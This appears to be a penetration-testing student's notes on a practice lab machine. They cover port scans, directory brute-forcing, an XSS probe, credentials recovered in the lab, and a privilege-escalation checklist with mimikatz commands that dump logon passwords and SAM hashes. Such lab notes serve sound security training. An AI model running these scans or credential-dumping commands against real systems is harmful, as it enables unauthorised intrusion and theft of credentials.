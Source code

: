 ### Enumeration
```
IP=192.168.170.147
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,17445,30455,50080 -A $IP
```
### Ports 
- 22
	- OpenSSH 8.4 (protocol 2.0)
- 17445
	- unknown
	- http
- 30455
	- nginx 1.18.0
- 50080
	- Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
### Foothold
- 17445
	- Default landing page
		- ![[Pasted image 20240715112402.png]]
	- Login
		- ![[Pasted image 20240715112517.png]]
	- Register
		- allow to create account
	- Logged in
		- /user
			- clinton
			- dummy
			- Allowed to edit the password
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 30455
	- Default landing page
		- ![[Pasted image 20240715112411.png]]
	- Source code
		- `<!-- Test adds with URL/?title=test -->
			- ![[Pasted image 20240715113251.png]]
			- Vulnerable to XSS
				- `<script>print()</script>`
	- Directory Brute force
		- dirsearch -u http://$IP
			- /phpinfo.php
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
- 50080
	- Default landing page
		- ![[Pasted image 20240715112426.png]]
		- ![[Pasted image 20240715112438.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
			- /cloud
				- admin:admin
				- ![[Pasted image 20240715114412.png]]
				- Download issuetracker.zip
					- IssueController.java
						- issue_user:ManagementInsideOld797
			- /images
			- /4
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
### PE
#### Linux
- USERNAME
	- id
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- linpeas
#### Windows
- USERNAME
	- whoami /all
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/medjed/systeminfo.txt  > ~/OSCP/boxes/medjed/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
			- type PATH
	- Users with console
	- Unquoted
		- cmd
			- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
		- PS1
			- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
		- icacls Filepath before .exe
			- Looking for W or F
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned